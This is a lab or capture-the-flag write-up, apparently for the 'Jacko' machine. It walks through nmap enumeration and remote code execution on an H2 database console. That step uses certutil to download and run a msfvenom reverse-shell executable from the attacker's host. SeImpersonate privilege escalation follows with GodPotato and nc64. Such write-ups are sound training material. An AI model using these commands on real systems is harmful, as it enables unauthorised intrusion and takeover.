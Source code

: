 ## First eumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Tue Feb 27 17:09:48 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 80,135,139,445,5040,8082,9092 -Pn 192.168.154.66
Nmap scan report for 192.168.154.66
Host is up (0.63s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5040/tcp open  unknown
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 37s
| smb2-time: 
|   date: 2024-02-27T16:13:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 27 17:12:58 2024 -- 1 IP address (1 host up) scanned in 189.71 seconds
```


## Enumerating port 8082

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4ed75590-f6a9-4d82-a440-4d918e1e426a)

from the nmap scan we notice a `H2 databases` service is running on port `8082`. opening it on a browser we got a login page. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7e2fb844-45d6-4956-9e29-2a83fa846081)

clicking the connect button and was able to login

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/099986c2-6a59-47bc-83da-da0a5dc8d405)

checking online found an exploit on [exploit-db](https://www.exploit-db.com/exploits/49384). 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9aaf39f5-dd19-442e-a3c6-c2adbedec9b8)

follow the exploitation steps. and we can trigger RCE. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Jacko]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.187 LPORT=443 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```
first generate a reverse shell payload with msf venom. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f29ea086-1cee-4e77-ad2c-bcb9d38d8d9e)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d5ddeea1-d614-4827-8f74-3149df6ccb48)

```
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -f http://192.168.45.187/reverse.exe C:\\Users\\Public\\shell.exe").getInputStream()).useDelimiter("\\Z").next()');
```
upload the shell into the target. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e9500a1c-34ae-451b-b8d5-343ac58de7a0)

```shell
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Users\\Public\\shell.exe").getInputStream()).useDelimiter("\\Z").next()');
```
trigger the shell

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ad0ae499-187a-4ec7-97e9-3c1dc0d79b8b)

Boom we got a reverse shell. 


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/79696594-7e0b-433f-b070-56c39059a9aa)

running whoami cmmand was not working, so we upload `whoami.exe` bin to the target. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5f087391-13ec-417b-9a9e-a2d5ed9ff07b)

checking the privs we can run, we got to see user `tony` has `SeImpersonatePrivilege` enabled, let's run printspoofer.exe. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a5d64b08-8c78-4a00-9e44-b2a9bd5af0ee)

upload prinspoofer.exe 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cb2a1a72-4752-45c7-a599-d9548c144ac6)

printspoofer did not work, so we used `godpototato.exe`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ba7023b7-52ea-4237-b6a6-c7d1e560b532)

spawned a cmd shell... 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f94c0389-3347-45be-8f74-4291b70c3093)

cmd shell didn't work, so upload a `net.exe`. that didn't work either. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/eb836595-3b9c-499d-8f6d-75ff9b0cfeb3)

Uploaded `nc64.exe` binary and we using godpotato.exe to spawn a reverse shell wih the `nc64.exe`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/705caaf4-7f13-45d7-a5bd-27987c5375c4)

And we are through with it 🙂
